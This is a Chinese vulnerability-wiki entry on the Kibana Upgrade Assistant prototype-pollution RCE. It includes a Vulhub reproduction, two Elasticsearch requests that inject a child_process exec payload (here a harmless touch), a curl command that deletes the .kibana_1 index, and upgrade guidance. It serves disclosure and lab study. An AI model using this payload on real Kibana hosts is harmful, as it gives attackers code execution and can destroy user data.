




# Kibana / Elasticsearch upgrade-assistant telemetry原型污染远程代码执行

## 条目说明

- 对象与具体问题：Kibana / Elasticsearch；upgrade-assistant telemetry原型污染RCE
- 版本、配置及部署条件：Kibana6.7–6.8.8或7.0–7.6.2；修复6.8.9/7.7.0
- 认证与权限前提：已认证且可写Kibana索引
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 错分致远OA
- 完整两步映射/文档写入和触发，权限/异步执行明确
- 文章警告崩溃后建议删除.kibana_1索引，会毁掉保存对象等用户配置；仅隔离环境重建措施，需显著风险/备份边界
- 不能以一般用户登录就宣称可用；原始Elastic公告/HackerOne来源良好

## 操作风险

请求可能删除/覆盖数据、修改账号或持久改变业务状态；命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

Kibana 是 Elasticsearch 的开源数据可视化仪表盘工具。

Kibana 6.7.0 至 6.8.8 版本以及 7.0.0 至 7.6.2 版本中的 Upgrade Assistant 功能存在原型污染漏洞。具有 Kibana 索引写入权限的认证用户可以插入恶意数据，导致 Kibana 执行任意代码。攻击者可能利用此漏洞以 Kibana 进程的权限在主机系统上执行代码。

参考链接：

- https://hackerone.com/reports/852613
- https://discuss.elastic.co/t/elastic-stack-6-8-9-and-7-7-0-security-update/235571
- https://nvd.nist.gov/vuln/detail/CVE-2020-7012

### 漏洞影响

```
ElasticSearch Kibana >=6.7.0，<=6.8.8
ElasticSearch Kibana >=7.0.0，<=7.6.2
```

### 环境搭建

Vulhub 启动 Kibana 7.6.2 和 Elasticsearch 7.6.2：

```shell
docker compose up -d
```

环境启动后，访问 `http://your-ip:5601` 即可看到 Kibana 的默认首页。




### 漏洞复现

远程代码执行漏洞发生在 Kibana 从 Elasticsearch 读取带有 `upgrade-assistant-telemetry` 属性的保存对象时。你可以通过直接向 Elasticsearch 发送数据或通过 Kibana 提交查询来利用此漏洞。代码执行将在 Kibana 重启后或数据收集时（具体时间未知）发生。

首先进入 Kibana UI 的开发者工具（URL 为 `http://your-ip:5601/app/kibana#/dev_tools/console`），然后发送以下请求来修改 Kibana 映射，以允许自定义的 `upgrade-assistant-telemetry` 文档：

```json
PUT /.kibana_1/_mappings
{
  "properties": {
    "upgrade-assistant-telemetry": {
      "properties": {
        "constructor": {
          "properties": {
            "prototype": {
              "properties": {
                "sourceURL": {
                  "type": "text",
                  "fields": {
                    "keyword": {
                      "type": "keyword",
                      "ignore_above": 256
                    }
                  }
                }
              }
            }
          }
        },
        "features": {
          "properties": {
            "deprecation_logging": {
              "properties": {
                "enabled": {
                  "type": "boolean",
                  "null_value": true
                }
              }
            }
          }
        },
        "ui_open": {
          "properties": {
            "cluster": {
              "type": "long",
              "null_value": 0
            },
            "indices": {
              "type": "long",
              "null_value": 0
            },
            "overview": {
              "type": "long",
              "null_value": 0
            }
          }
        },
        "ui_reindex": {
          "properties": {
            "close": {
              "type": "long",
              "null_value": 0
            },
            "open": {
              "type": "long",
              "null_value": 0
            },
            "start": {
              "type": "long",
              "null_value": 0
            },
            "stop": {
              "type": "long",
              "null_value": 0
            }
          }
        }
      }
    }
  }
}
```




然后发送第二个请求来注入恶意的 telemetry 文档：

```json
PUT /.kibana_1/_doc/upgrade-assistant-telemetry:upgrade-assistant-telemetry
{
  "upgrade-assistant-telemetry": {
    "ui_open.overview": 1,
    "ui_open.cluster": 1,
    "ui_open.indices": 1,
    "constructor.prototype.sourceURL": "\u2028\u2029\nglobal.process.mainModule.require('child_process').exec('touch /tmp/awesome_poc')"
  },
  "type": "upgrade-assistant-telemetry",
  "updated_at": "2020-04-17T20:47:40.800Z"
}
```




最后，你需要等待一段时间让 payload 执行。如果不想等待，可以通过 `docker compose restart kibana` 重启 Kibana 服务器，恶意代码将在服务重启后执行。

命令将在服务重启后执行：

```
docker compose exec kibana ls -al /tmp
```




**重要提示：漏洞利用后，Kibana 将崩溃且无法启动。你需要从 ElasticSearch 中删除 `.kibana_1` 索引才能恢复功能。**

删除 `.kibana_1` 并重启服务：

```
docker compose exec elasticsearch curl -XDELETE http://localhost:9200/.kibana_1
docker compose restart kibana
```

### 漏洞修复

用户应升级到 Kibana 版本 7.7.0 或 6.8.9。无法升级的用户可按照以下说明禁用升级助手：

- Kibana 版本 6.7.0 和 6.7.1 可以在 `kibana.yml` 文件中设置 `upgrade_assistant.enabled: false`
- Kibana 版本从 6.7.2 开始，可以在 `kibana.yml` 文件中设置 `xpack.upgrade_assistant.enabled: false`


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
